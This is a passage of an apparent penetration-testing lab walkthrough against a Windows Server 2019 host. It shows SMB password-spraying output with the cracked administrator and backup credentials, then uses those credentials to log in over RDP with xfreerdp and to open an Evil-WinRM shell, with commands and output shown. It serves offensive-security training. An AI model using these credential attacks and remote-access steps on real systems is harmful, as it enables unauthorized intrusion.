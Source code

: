 **Output**:
```
SMB         192.168.148.101 445    WIN-TIP7RVRBJ8E [*] Windows Server 2019 Standard 17763
SMB         192.168.148.101 445    WIN-TIP7RVRBJ8E [-] WIN-TIP7RVRBJ8E\Administrator:Administrator2025! STATUS_LOGON_FAILURE
SMB         192.168.148.101 445    WIN-TIP7RVRBJ8E [+] WIN-TIP7RVRBJ8E\Administrator:Password123! 
SMB         192.168.148.101 445    WIN-TIP7RVRBJ8E [+] WIN-TIP7RVRBJ8E\overclock:Administrator2025! 
SMB         192.168.148.101 445    WIN-TIP7RVRBJ8E [+] WIN-TIP7RVRBJ8E\backup:Backupaccount123!
```

**Found Credentials**:
- `Administrator:Password123!` (Admin access!)
- `overclock:Administrator2025!` (Admin group member)
- `backup:Backupaccount123!` (Backup Operators group)

### Step 4.3: Gaining Access - Multiple Methods

#### Method 1: RDP Access (GUI Access)

```bash
# RDP with discovered credentials
┌──(kali㉿kali)-[~]
└─$ xfreerdp /v:192.168.148.101 /u:overclock /p:Administrator2025! \
    /cert:ignore +clipboard /dynamic-resolution
```

**Why These Flags?**:
- `/cert:ignore`: Bypass certificate warnings (common in labs)
- `+clipboard`: Enable clipboard sharing for easy data transfer
- `/dynamic-resolution`: Adjust resolution to your screen

**RDP Session**:
```
[+] Connecting to 192.168.148.101:3389
[+] Connected to WIN-TIP7RVRBJ8E
[+] Authenticated as overclock
[Desktop Session Active]
```

#### Method 2: Evil-WinRM (Command Line Access)

```bash
# WinRM connection for shell access
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 192.168.148.101 -u overclock -p Administrator2025!
```

**Output**:
```
Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\overclock\Documents> whoami
win-tip7rvrbj8e\overclock

*Evil-WinRM* PS C:\Users\overclock\Documents> whoami /priv
[Shows privileges including SeDebugPrivilege if admin]
```
